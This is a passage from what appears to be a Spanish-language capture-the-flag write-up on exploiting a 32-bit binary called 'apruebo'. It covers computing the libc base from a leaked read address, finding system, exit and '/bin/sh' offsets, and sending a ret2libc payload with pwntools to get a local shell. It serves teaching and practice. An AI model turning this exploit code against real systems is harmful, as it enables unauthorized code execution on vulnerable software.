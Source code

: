 Si ejecutamos nuestro exploit varias veces, nos damos cuenta de que la dirección que leakeamos cambia cada vez. Ahora que tenemos la dirección de `read@libc` necesitamos calcular la dirección base de libc. Para hacer esto podemos usar la direccion de `read` en nuestra libc y restarsela a nuestro leak, para así llegar a la dirección base de libc.
Hacemos `ldd apruebo` para obtener el path de nuestra libc: `/lib/i386-linux-gnu/libc.so.6`. Ahora, para obtener la dirección de`read`, hacemos `readelf -s -t x /lib/i386-linux-gnu/libc.so.6 | grep read@` y buscamos la de `read@@GLIBC_2.0` obteniendo`0x000ea3a0`. Esta dirección puede variar dependiendo del sistema operativo o la versión de libc de cada uno.
La incorporamos a nuestro exploit y llevamos a cabo las operaciones necesarias para llegar a la direccion base de libc:
```python
libc_read = 0x000ea3a0
libc_base = leak - libc_read

log.info("Base de libc: " + hex(libc_base))
```

Ahora que tenemos la direccion base de libc podemos pasar a la segunda etapa de nuestro exploit: llamar a `system` con `/bin/sh`. Para esto necesitamos las siguientes direcciones que pueden ser obtenidas mediante los siguientes comandos:

- `system@libc` | Comando:  `readelf -s -t x /lib/i386-linux-gnu/libc.so.6 | grep system`
Obtenemos `0x00042660`
- `/bin/sh@libc` | Comando: `strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh`
Obtenemos `0x17ff68`
- `exit@libc` | Comando:  `readelf -s -t x /lib/i386-linux-gnu/libc.so.6 | grep exit`
Obtenemos `0x000356f0`

Ahora las incorporamos a nuestro exploit y hacemos los debidos cálculos para poder usarlas correctamente dentro de la ejecución de nuestro binario:

```python
system = libc_base + 0x00042660
bin_sh = libc_base + 0x17ff68
exit = libc_base + 0x000356f0
```
Y ahora es momento de lanzar nuestro segundo payload. Recordamos que al llamar a `write` para hacer el memory leak usamos a `main` como return address, por lo que es como si hubieramos corrido el binario de nuevo, es decir, tenemos que introducir nuestros 140 bytes de padding y todo como si fuese un exploit desde 0. El final de nuestro exploit queda así:


```python
payload = junk + p32(system) + p32(exit) + p32(bin_sh) # Aclaración del orden de los argumentos: system(ret addr, cmd)

p.sendline(payload)
p.interactive()
```

Ahora corremos el exploit y... obtenemos una shell!!

![](/assets/images/content/cuarentefa/localshell.png)
